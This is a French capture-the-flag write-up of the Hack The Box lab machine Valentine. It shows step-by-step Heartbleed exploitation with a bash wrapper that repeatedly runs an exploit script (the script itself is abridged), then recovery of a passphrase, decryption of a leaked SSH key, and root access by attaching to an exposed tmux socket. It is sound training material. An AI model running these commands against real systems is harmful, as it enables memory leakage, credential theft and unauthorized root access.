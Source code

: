 ```yaml
---
title: "Valentine.htb"
date: 2025-08-04
draft: false
ShowToc: true
TocOpen: true
tags: ["HTB", "writeup", "CTF", "Heartbleed", "Tmux", "Linux"]
categories: ["Mes writeups"]
cover:
  image: "image.png"
  anchor: "top" # "center", "top", "left", "TopRight" ...
summary: >-
  Après une courte phase de repérage, un indice visuel saute aux yeux : une
  image de cœur brisé, clin d’œil à « Heartbleed », une faille OpenSSL très
  répandue à l’époque. En suivant cette piste, j’exploite la vulnérabilité pour
  récupérer des informations sensibles qui me donnent un accès utilisateur
  légitime à la machine. La suite se joue en local : un outil d’écran partagé
  (tmux), laissé insuffisamment protégé par l’admin, me permet de m’accrocher à
  sa session et d’obtenir les pleins pouvoirs (root), simplement et proprement.
  Le writeup retrace ce cheminement pas à pas — de l’indice visuel aux
  vérifications finales — et montre comment appliquer la même méthode sur
  d’autres machines.
description: "Exploitation de « Heartbleed », une faille OpenSSL très répandue à l’époque"
---
```


## Introduction
Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux

---

##  Énumération

### Scan initial

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

### Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## Exploitation - Prise Pied

### Heartbleed (CVE-2014-0160)
Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

###  Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

### Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

###  Et là, bingo !

J’ai accédé à une session interactive **root** encore ouverte. Probablement laissée là par un admin négligent, ou par un script de debug.

###  Preuve

```bash
root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```



## Les Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## Pièces jointes

- [heartbleed_full.sh](files/heartbleed_full.sh)
- [heartbleed-exploit.py](files/heartbleed-exploit.py)

##  Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

{{< admonition type="tip" title="Astuce" >}}
Toujours vérifier tous les couples `user:pass` en SSH, même s’ils semblent destinés au web.
{{< /admonition >}}

{{< admonition type="warning" title="Tri des dumps" >}}
Garde un fichier concaténé `strings | sort -u` + horodatage pour la reproductibilité.
{{< /admonition >}}

